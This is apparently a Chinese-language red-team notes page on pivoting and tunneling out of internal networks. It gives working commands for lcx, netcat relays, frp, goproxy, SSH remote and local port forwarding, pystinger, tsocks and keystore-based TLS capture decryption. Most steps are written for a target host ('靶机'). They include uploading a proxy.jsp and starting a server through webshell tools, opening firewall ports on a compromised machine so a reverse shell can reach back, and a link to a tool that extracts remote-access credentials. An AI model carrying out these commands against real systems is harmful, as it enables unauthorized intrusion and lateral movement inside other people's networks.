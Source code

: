 https://gitee.com/windyjxx/projects


## 内网穿透
[Neo-reGeorg -- php](https://blog.csdn.net/qq_42094992/article/details/115143527)
frp/nps

[tcptunnel 利用 TCP 隧道让内网不出网主机上线 MSF](https://mp.weixin.qq.com/s/iDAAC3BRPj2YaWkNZPWEDQ)

-- for xp/2003
3proxy 7.x / CCProxy
nc
[lcx](https://github.com/UndefinedIdentifier/LCX)

[内网渗透中隧道渗透技术](https://blog.csdn.net/qq_17204441/article/details/88834324)
[内网渗透之主机出网OR不出网隧道搭建](https://www.freebuf.com/articles/web/255801.html)
### lcx
```bash
靶机执行
Lcx.exe -slave 192.168.100.3 12345 192.168.100.128 3389 (把攻击机的12346数据 传递给靶机的3389)
攻击机执行
Lcx.exe -listen 12345 12346 (把攻击机12345端口接收到的数据转发到哦12346端口)
```
### nc
[nc端口转发](https://ssooking.github.io/2020/05/nc%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91/)
```bash
# 跳板机: 8888 转到 153 的 22端口上
nc -l -p 8888 -c "nc 192.168.19.153 22"
```

自动循环连接
```bash
while :; do (nc -l -p 8888 -c "nc 192.168.19.153 22"); done
```

# proxy
## proxychains

只对tcp流量有效，所以udp和icmp都是不能代理转发的。

## frp

frpc
```shell
frpc tcp -s 192.168.50.161:7000 -l 1234 -r 8080
# 相当于
[common]
server_addr = 127.0.0.1
server_port = 7000

[tcp1]
type = tcp
local_ip = 127.0.0.1
local_port = 1234
remote_port = 8000 # 本地1234启动http-server 远程访问 192.168.50.161:8080
```
## goproxy

```shell
proxy.exe http -t tcp -p "0.0.0.0:8080" --daemon
```
## ssh

![](https://s2.loli.net/2022/12/31/vdz5bXjOt368sHW.png)
![](https://s2.loli.net/2022/12/31/OVPkim34YNj5Wwy.png)

1.SSH远程端口转发
```shell
useradd tunneluser -m -d/home/tunneluser -s/bin/true
passwd tunneluser
ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N # 跳板机1.1.1.1 将3389 转发到 内网 3.3.3.3:3389
# 攻击者
attacker-pc$ xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPasswd
```

![](https://s2.loli.net/2022/12/31/IAcaVtw671PUevX.jpg)

2.SSH本地端口转发
适用不出网机器, 允许我们从通常无法连接回我们的主机运行反向shell

从attacker-pc转发80并从PC-1使其可用
```shell
PC-1$ ssh tunne1user@1.1.1.1 -L *:80:127.0.0.1:80 -N
PC-1$ netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```

## pystinger 仅web服务权限不出网使用
[Link](https://cloud.tencent.com/developer/article/2036092) 

假设不出网服务器域名为 http://example.com:8080 ,服务器内网IP地址为192.168.3.11

SOCK4代理
```
1. proxy.jsp上传到目标服务器,确保 http://example.com:8080/proxy.jsp 可以访问,页面返回 UTF-8
2. 将stinger_server.exe上传到目标服务器,蚁剑/冰蝎执行start D:/XXX/stinger_server.exe启动服务端
       不要直接运行D:/XXX/stinger_server.exe,会导致tcp断连
3. vps执行./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
此时已经在vps127.0.0.1:60000启动了一个example.com所在内网的socks4a代理
此时已经将目标服务器的127.0.0.1:60020映射到vps的127.0.0.1:60020

...

```

## tocks
apt-get install tsocks  
vi /etc/tsocks.conf  

```shell
local = 192.168.1.0/255.255.255.0  #local表示本地的网络，也就是不使用socks代理的网络  
local = 127.0.0.0/255.0.0.0  
server = 127.0.0.1   #socks服务器的IP  
server_type = 5  #socks服务版本  
server_port = 8888  # socks服务使用的端口  
```

run
```shell
tsocks curl http://myexternalip.com &
```

# other

## keystore,keytool,ssl证书解密pcap

```shell
keytool -list -keystore c:\keystore # 输入密钥库口令tomcat
# 从密钥库导出.p12证书，将keystore拷贝到keytool目录，导出名为：tomcatkeystore.p12的证书，命令：
keytool -importkeystore -srckeystore c:\keystore -destkeystore c:\tomcatkeystore.p12 -deststoretype PKCS12 -srcalias tomcat

# 将.p12证书导入Wireshark
# 在Wireshark中打开 .pcap, 菜单: 编辑–首选项–Protocols–SSL，点击右边的Edit：输入：192.168.110.140 8443 http 点击选择证书文件 输入密码tomcat
```

## 向日葵_识别码和验证码提取工具

https://github.com/wafinfo/Sunflower_get_Password


